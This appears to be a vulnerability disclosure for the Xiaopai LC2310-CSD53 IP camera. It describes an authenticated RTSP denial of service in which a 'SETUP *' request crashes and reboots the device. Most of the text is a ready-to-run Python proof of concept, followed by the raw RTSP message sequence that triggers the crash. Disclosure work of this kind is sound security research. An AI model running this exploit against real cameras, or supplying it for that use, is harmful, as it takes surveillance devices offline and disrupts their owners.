






# Xiaopai LC2310-CSD53 - Authenticated RTSP Device Crash via Wildcard SETUP URI

### Information

Vendor: Shenzhen Xiaopai Technology Co., Ltd. (Xiaopai)

Affected Product: LC2310-CSD53

Affected Firmware Version: 1.00.18

Vendor Homepage: [https://www.xiaopaitech.com](https://www.xiaopaitech.com)

Vendor Contact Information: 0755-86566780 / 400-822-1116 (official support phone)



Affected Component: RTSP service (TCP/554)

### Description

A vulnerability in the RTSP service of Xiaopai LC2310-CSD53 firmware 1.00.18 allows an attacker with valid RTSP credentials to cause a denial of service. A crafted SETUP request with a wildcard request URI is sent after a valid Digest DESCRIBE, after which the RTSP service stops accepting connections and the device becomes unreachable over ICMP, causing a device-wide denial of service (crash/reboot). The issue was reproduced at both the first and second SETUP positions; the PoC uses the first SETUP as a representative trigger.

### Exploit Demo

The RTSP service uses Digest authentication (realm `zlmeida`) on TCP/554. A valid authenticated `DESCRIBE` is required. The PoC completes that prerequisite and then sends `SETUP * RTSP/1.0` as the first `SETUP` request.

The terminal output shows the valid Digest `DESCRIBE`, the `SETUP *` trigger, the missing RTSP response, and the device becoming unavailable on both RTSP and ICMP:



Wireshark `Follow TCP Stream` shows the authenticated `DESCRIBE 200` and the `SETUP * RTSP/1.0` request. The trigger request line is highlighted:



The packet list shows the `SETUP *` request followed by the client FIN and a device RST; independent RTSP and ICMP probes then fail:



The device indicator turns red while the terminal reports RTSP and ICMP loss:



The camera application subsequently reports `设备正在开机` (device is booting), confirming the device restart:



The same behavior was reproduced at both SETUP positions:

| SETUP position | Confirmed URI variants | Result |
| --- | --- | --- |
| First SETUP | 9 variants, including `*`, numeric and non-ASCII values | RTSP/ICMP outage and device restart |
| Second SETUP | 4 variants, including `*` | RTSP/ICMP outage and device restart |

The same `*` URI was reproduced at both positions and is treated as one vulnerability. A 15-case method-position control at `OPTIONS`, `DESCRIBE`, `PLAY` and `TEARDOWN` did not cause the same device-wide outage, so the observed effect is specific to the SETUP request URI positions. The verified account was `admin`; lower-privilege accounts were not tested.

A 29-second screen recording of the full reproduction is provided as [06_reproduction_video.mp4](./images/06_reproduction_video.mp4). It shows the authenticated `DESCRIBE`, the `SETUP *` trigger, the RTSP and ICMP failure, and the device restart.

### POC

The following standalone Python 3 PoC reproduces the representative first-SETUP trigger. Replace `TARGET_IP`, `USERNAME` and `PASSWORD` with the test device values. The trigger request line is defined explicitly as `SETUP * RTSP/1.0`.

```python
#!/usr/bin/env python3
"""LC2310-CSD53 SETUP URI crash PoC.

Hardcoded target: 192.168.1.100:554 (placeholder).
The script completes a valid Digest DESCRIBE, then sends SETUP * as the first
SETUP request. The device becomes unavailable on RTSP and ICMP.
Run this file directly from VS Code.
"""

import hashlib
import re
import socket
import subprocess
import time

TARGET_IP = "192.168.1.100"  # replace with the target camera IP
TARGET_PORT = 554
USERNAME = "REDACTED"  # replace with the account username
PASSWORD = "REDACTED"  # replace with the account password

PATH = "/md0_0"
REQUEST_INTERVAL = 1.0
PROBE_INTERVAL = 2.0
DOWN_WAIT = 30.0
TRIGGER_WAIT = 3.0
USER_AGENT = "LC2310-SETUP-URI-crash-check/1.0"

BASE = "rtsp://%s:%d%s" % (TARGET_IP, TARGET_PORT, PATH)
CONTROL_URI = BASE + "/"

# Request 1: normal OPTIONS.
OPTIONS_REQUEST = (
    f"OPTIONS {BASE} RTSP/1.0\r\n"
    "CSeq: 2\r\n"
    f"User-Agent: {USER_AGENT}\r\n\r\n"
)

# Request 2: unauthenticated DESCRIBE, returns the Digest challenge.
DESCRIBE_CHALLENGE = (
    f"DESCRIBE {BASE} RTSP/1.0\r\n"
    "CSeq: 3\r\n"
    f"User-Agent: {USER_AGENT}\r\n"
    "Accept: application/sdp\r\n\r\n"
)

# Request 4: the trigger. The request URI is replaced by "*".
TRIGGER_REQUEST_LINE = "SETUP * RTSP/1.0"


def md5(value):
    return hashlib.md5(value.encode("utf-8")).hexdigest()


def digest_auth(method, uri, realm, nonce):
    ha1 = md5("%s:%s:%s" % (USERNAME, realm, PASSWORD))
    ha2 = md5("%s:%s" % (method, uri))
    response = md5("%s:%s:%s" % (ha1, nonce, ha2))
    return (
        'Authorization: Digest username="%s", realm="%s", nonce="%s", '
        'uri="%s", response="%s"'
    ) % (USERNAME, realm, nonce, uri, response)


def build_authenticated_describe(realm, nonce):
    # Request 3: valid Digest DESCRIBE.
    return (
        f"DESCRIBE {BASE} RTSP/1.0\r\n"
        "CSeq: 4\r\n"
        f"User-Agent: {USER_AGENT}\r\n"
        f"{digest_auth('DESCRIBE', BASE, realm, nonce)}\r\n"
        "Accept: application/sdp\r\n\r\n"
    )


def build_trigger_setup(realm, nonce):
    return (
        f"{TRIGGER_REQUEST_LINE}\r\n"
        "CSeq: 5\r\n"
        f"User-Agent: {USER_AGENT}\r\n"
        f"{digest_auth('SETUP', CONTROL_URI, realm, nonce)}\r\n"
        "Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
    )


def show_payload(payload):
    text = payload.decode("latin-1")
    print("  send:")
    for line in text.rstrip("\r\n").split("\r\n"):
        if len(line) > 120:
            line = line[:90] + "... [%d bytes total]" % len(line)
        print("    | " + line)


def header_value(headers, name):
    prefix = name.lower() + ":"
    for line in headers:
        if line.lower().startswith(prefix):
            return line.split(":", 1)[1].strip()
    return ""


def parse_challenge(headers):
    value = header_value(headers, "WWW-Authenticate")
    params = dict(re.findall(r'(\w+)="([^"]*)"', value))
    return params["realm"], params["nonce"]


def read_response(stream):
    status = stream.readline()
    if not status:
        return None, []
    if not status.startswith(b"RTSP/1.0 "):
        return "unexpected status line", []
    headers = []
    while True:
        line = stream.readline()
        if not line:
            return None, []
        if line in (b"\r\n", b"\n"):
            break
        headers.append(line.decode("latin-1").rstrip("\r\n"))
    length = int(header_value(headers, "Content-Length") or "0")
    if length:
        remaining = length
        while remaining:
            chunk = stream.read(remaining)
            if not chunk:
                break
            remaining -= len(chunk)
    return status.decode("latin-1").strip(), headers


def send_and_read(sock, stream, label, payload):
    if isinstance(payload, str):
        payload = payload.encode("latin-1")
    print("\n[%s]" % label)
    show_payload(payload)
    time.sleep(REQUEST_INTERVAL)
    try:
        sock.sendall(payload)
        status, headers = read_response(stream)
    except socket.timeout:
        status, headers = None, []
        print("  -> no RTSP response within %.1fs" % sock.gettimeout())
    except (OSError, ValueError) as exc:
        status, headers = None, []
        print("  -> %s: %s" % (type(exc).__name__, exc))
    else:
        print("  <- %s" % (status or "connection closed"))
    return status, headers


def ping():
    try:
        result = subprocess.run(
            ["ping", "-c", "1", "-W", "1", TARGET_IP],
            stdout=subprocess.DEVNULL,
            stderr=subprocess.DEVNULL,
            timeout=2,
            check=False,
        )
        return result.returncode == 0
    except (FileNotFoundError, subprocess.TimeoutExpired):
        return None


def probe_rtsp():
    try:
        with socket.create_connection((TARGET_IP, TARGET_PORT), timeout=1) as sock:
            sock.settimeout(1.0)
            with sock.makefile("rb") as stream:
                sock.sendall(OPTIONS_REQUEST.encode("latin-1"))
                status, _ = read_response(stream)
                return status or "connection closed"
    except ConnectionResetError:
        return "connection reset"
    except ConnectionRefusedError:
        return "connection refused"
    except socket.timeout:
        return "timeout"
    except OSError as exc:
        return type(exc).__name__


def observe_down():
    start = time.monotonic()
    saw_rtsp_down = False
    saw_icmp_down = False

    while True:
        elapsed = time.monotonic() - start
        rtsp = probe_rtsp()
        icmp = ping()
        icmp_text = "unavailable" if icmp is None else ("reply" if icmp else "no reply")
        print("  +%.1fs: RTSP=%s, ICMP=%s" % (elapsed, rtsp, icmp_text))

        if rtsp != "RTSP/1.0 200 OK":
            saw_rtsp_down = True
        if icmp is False:
            saw_icmp_down = True

        if saw_rtsp_down and saw_icmp_down:
            print("  RTSP and ICMP are both unavailable.")
            print("  Device crash observed.")
            break

        elapsed = time.monotonic() - start
        if elapsed >= DOWN_WAIT:
            print("  observation window ended after %.1fs" % elapsed)
            break
        time.sleep(PROBE_INTERVAL)

    print("  RTSP unavailable: %s" % saw_rtsp_down)
    print("  ICMP unavailable: %s" % saw_icmp_down)


def main():
    print("=" * 70)
    print("LC2310-CSD53 SETUP URI crash PoC")
    print("  target: %s:%d" % (TARGET_IP, TARGET_PORT))
    print("  trigger: SETUP * as the first SETUP")
    print("=" * 70)

    before_rtsp = probe_rtsp()
    before_icmp = ping()
    print("Preflight: RTSP=%s, ICMP=%s" % (
        before_rtsp,
        "unavailable" if before_icmp is None else ("reply" if before_icmp else "no reply")))
    if before_rtsp != "RTSP/1.0 200 OK" or before_icmp is False:
        print("Device is not healthy before the test; aborting.")
        return

    sock = socket.create_connection((TARGET_IP, TARGET_PORT), timeout=3)
    sock.settimeout(3.0)
    stream = sock.makefile("rb")
    try:
        send_and_read(sock, stream, "[1/4] OPTIONS", OPTIONS_REQUEST)
        status, headers = send_and_read(
            sock, stream, "[2/4] DESCRIBE challenge", DESCRIBE_CHALLENGE)
        if not status or not status.startswith("RTSP/1.0 401"):
            print("No Digest challenge; aborting.")
            return
        realm, nonce = parse_challenge(headers)

        status, _ = send_and_read(
            sock, stream, "[3/4] DESCRIBE with valid Digest",
            build_authenticated_describe(realm, nonce))
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Valid Digest DESCRIBE failed; aborting.")
            return

        print("\n" + "=" * 70)
        print(">>> TRIGGER: [4/4] SETUP * RTSP/1.0 <<<")
        print(">>> This is the request that crashes the device. <<<")
        print("=" * 70)
        sock.settimeout(TRIGGER_WAIT)
        status, _ = send_and_read(
            sock, stream, "[4/4] TRIGGER SETUP *",
            build_trigger_setup(realm, nonce))
        print("  [trigger] SETUP request URI = *")

        print("\nObserving RTSP and ICMP after the trigger ...")
        observe_down()
    finally:
        try:
            stream.close()
        except OSError:
            pass
        try:
            sock.close()
        except OSError:
            pass


if __name__ == "__main__":
    main()

```

### MSG

The complete representative trigger is shown below. `192.168.1.100` is a placeholder for the target address; `<USERNAME>`, `<NONCE>`, `<VALID_DESCRIBE_RESPONSE>` and `<VALID_SETUP_RESPONSE>` are runtime values. All request lines use CRLF.

```text
OPTIONS rtsp://192.168.1.100:554/md0_0 RTSP/1.0
CSeq: 2
User-Agent: LC2310-SETUP-URI-crash-check/1.0

DESCRIBE rtsp://192.168.1.100:554/md0_0 RTSP/1.0
CSeq: 3
User-Agent: LC2310-SETUP-URI-crash-check/1.0
Accept: application/sdp

DESCRIBE rtsp://192.168.1.100:554/md0_0 RTSP/1.0
CSeq: 4
User-Agent: LC2310-SETUP-URI-crash-check/1.0
Authorization: Digest username="<USERNAME>", realm="zlmeida", nonce="<NONCE>", uri="rtsp://192.168.1.100:554/md0_0", response="<VALID_DESCRIBE_RESPONSE>"
Accept: application/sdp

SETUP * RTSP/1.0
CSeq: 5
User-Agent: LC2310-SETUP-URI-crash-check/1.0
Authorization: Digest username="<USERNAME>", realm="zlmeida", nonce="<NONCE>", uri="rtsp://192.168.1.100:554/md0_0/", response="<VALID_SETUP_RESPONSE>"
Transport: RTP/AVP/TCP;unicast;interleaved=0-1
```

The original fuzzer input contained a second `SETUP`, `PLAY` and `TEARDOWN`. They are not required for the trigger and are not processed after the device becomes unavailable.

### Credit

CRfuzzer
